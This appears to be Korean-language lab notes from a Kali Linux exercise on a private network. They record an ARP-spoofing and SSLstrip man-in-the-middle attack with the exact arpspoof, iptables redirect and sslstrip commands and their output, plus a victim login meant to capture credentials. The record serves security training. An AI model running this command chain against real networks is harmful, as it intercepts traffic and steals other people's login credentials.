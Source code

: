 root@KH200-kali:~# arpspoof -i eth0 -t 172.16.10.50 172.16.10.10

-> 즉 서로 속이는 중



탭3

root@KH200-kali:~# iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 10000
root@KH200-kali:~# iptables -t nat -L

```
Chain PREROUTING (policy ACCEPT)
target     prot opt source               destination         
REDIRECT   tcp  --  anywhere             anywhere             tcp dpt:http redir ports 10000

Chain INPUT (policy ACCEPT)
target     prot opt source               destination         

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination         

Chain POSTROUTING (policy ACCEPT)
target     prot opt source               destination         


```

root@KH200-kali:~# sslstrip -l 10000 -w strip.log



###### XP

에서 arp -a -> ping 172.16.10.50 ->arp -a -> ping 172.16.10.100 해서 확인

인터넷 -> 로그인 



###### Kali

탭4

root@KH200-kali:~# ls -l

```
합계 44
drwxr-xr-x 2 root root 4096  3월  6  2017 Desktop
drwxr-xr-x 2 root root 4096  3월  6  2017 Documents
drwxr-xr-x 2 root root 4096  3월  6  2017 Downloads
drwxr-xr-x 2 root root 4096  3월  6  2017 Music
drwxr-xr-x 2 root root 4096  3월  6  2017 Pictures
drwxr-xr-x 2 root root 4096  3월  6  2017 Public
drwxr-xr-x 2 root root 4096  3월  6  2017 Templates
drwxr-xr-x 2 root root 4096  3월  6  2017 Videos
-rw-r--r-- 1 root root   32 10월 26 13:28 dnsspoof.txt
-rw-r--r-- 1 root root  179 10월 27 10:25 strip.log
-rw-r--r-- 1 root root 1644 10월 26 16:40 webmitm.crt

```
